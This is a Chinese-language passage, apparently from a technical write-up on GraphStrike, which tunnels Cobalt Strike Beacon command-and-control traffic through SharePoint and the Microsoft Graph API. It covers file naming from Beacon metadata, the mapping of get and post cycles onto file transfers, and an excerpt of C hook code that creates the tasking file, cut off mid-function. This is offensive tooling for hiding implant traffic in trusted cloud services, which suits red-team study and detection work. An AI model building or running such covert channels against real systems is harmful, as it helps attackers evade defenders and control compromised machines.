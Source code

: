 对于这个特定的 Beacon，相关信息可以总结如下：

| **条目** | **值** |
| --- | --- |
| TS 任务文件名 | AMFTYYnvh-NZ7q87nb32BV03vz-tP1vaoxmfdwKTeba6D7azteJONYntyP79j7L7-QWynYagPhJ0qgBk7albtTKi4tmJlfIBfcoVaHcmMehvzQcZar1OC1hQj64cXfBDSRs-u2Sp9P0GNglZejsQ7BcCA-3cirbd0wInvbhStW0 |
| Beacon 输出文件名 | AMFTYYnvh-NZ7q87nb32BV03vz-tP1vaoxmfdwKTeba6D7azteJONYntyP79j7L7-QWynYagPhJ0qgBk7albtTKi4tmJlfIBfcoVaHcmMehvzQcZar1OC1hQj64cXfBDSRs-u2Sp9P0GNglZejsQ7BcCA-3cirbd0wInvbhStW0pD9-tK1123716960 |
| Beacon 元数据 | AMFTYYnvh-NZ7q87nb32BV03vz-tP1vaoxmfdwKTeba6D7azteJONYntyP79j7L7-QWynYagPhJ0qgBk7albtTKi4tmJlfIBfcoVaHcmMehvzQcZar1OC1hQj64cXfBDSRs-u2Sp9P0GNglZejsQ7BcCA-3cirbd0wInvbhStW0 |
| 分隔符 | pD9-tK |
| Beacon 会话 ID | 1123716960 |

通过这样组织事情，我们：

1.  将所需的 Beacon 元数据和会话 ID 与每个 http-get 和 http-post 请求相关联。
2.  可以将 SharePoint 中的 TS 任务文件和 Beacon 输出文件关联为属于同一 Beacon（因为在两个文件名中都可以找到 Beacon 元数据）。

为了将其映射到 Beacon 的 HTTP 事务，Beacon 将向 TS 任务文件发出 http-get 请求以下载文件内容。对 http-get 的服务器响应来自托管 SharePoint 文件（而不是 TS）的 Microsoft 服务器，并包含之前由 GraphStrike 服务器上传的 TS 任务。由于 Beacon 的独特元数据用作文件名，GraphStrike 知道 Cobalt Strike 中发布的针对该特定 Beacon 的所有任务都应上传到治理。

当 Beacon 获得任务输出时，它会启动 http-post 循环，将数据上传到 Beacon 输出文件。 Beacon 实际上并不对 http-post 请求的服务器输出做任何事情，也不关心服务器输出，因此我们可以简单地丢弃 Microsoft 服务器响应此请求的内容。然后，GraphStrike 服务器可以下载 Beacon 输出文件中存储的数据，通过按预定义的分隔符拆分来查找文件名中的 Beacon 会话 ID，然后将此数据传送到 TS 进行处理。

Beacon 负责在 SharePoint 中创建这两个文件，因为它的元数据和会话 ID 是在运行时确定的。执行此操作的代码也驻留在 HttpOpenRequestA\_Hook 函数中，并且在逻辑上是有限制的，因此 Beacon 只能在 SharePoint 中创建一次新文件；TS Tasking 文件是在第一个 http-get 循环中创建的，而输出文件则是在第一个 http-post 循环中创建的。

TS 任务文件创建：

```plain
... Trimmed for Brevity ...

// If this is the first GET request for the Beacon, we need to create the TS output file for the Beacon to read from. 
if (pMemAddrs->firstGet)
{
    // ------------------------------------ Upload new file for TS tasking ---------------------------------------

    // Assemble URI to create new file in SharePoint using the Beacon metadata as a name
    tempUri = C_PTR ( pMemAddrs->Api.msvcrt.calloc(1000, sizeof(char)) );
    LPCSTR fileName = pMemAddrs->Api.msvcrt.strstr(lpszObjectName, HTTP_GET_PREFIX ) + pMemAddrs->Api.msvcrt.strlen(HTTP_GET_PREFIX);
    pMemAddrs->Api.msvcrt.sprintf(tempUri, C_PTR ( OFFSET ( "%s/root:/%s:/content" ) ), SHAREPOINT_ADDRESS, fileName );

    // Store metaData to be used later to create the Beacon output channel as well 
    pMemAddrs->metaData = (char*)pMemAddrs->Api.msvcrt.calloc(pMemAddrs->Api.msvcrt.strlen(fileName) + 1, sizeof(char));
    pMemAddrs->Api.msvcrt.strcpy(pMemAddrs->metaData, fileName);

    response = MakeWebRequest(pMemAddrs->hInternet, GRAPH_ADDRESS, tempUri, PUT_VERB, pMemAddrs->httpPostHeaders, NULL, pMemAddrs );
    if (!response)
        return INVALID_HANDLE_VALUE;

    // Parse out fileId from response
    ParseValue((char*)response, (char*)C_PTR ( OFFSET ( "id\":\"" ) ), id, 100, FALSE, pMemAddrs);

    // Assemble httpGetUri that will be used for subsequent Beacon comms
    reqSize = pMemAddrs->Api.msvcrt.strlen(SHAREPOINT_ADDRESS) + pMemAddrs->Api.msvcrt.strlen(id) + pMemAddrs->Api.msvcrt.strlen(C_PTR ( OFFSET ( "/items//content" ) ) + 1);
    pMemAddrs->httpGetUri = pMemAddrs->Api.msvcrt.calloc(reqSize, sizeof(char));
```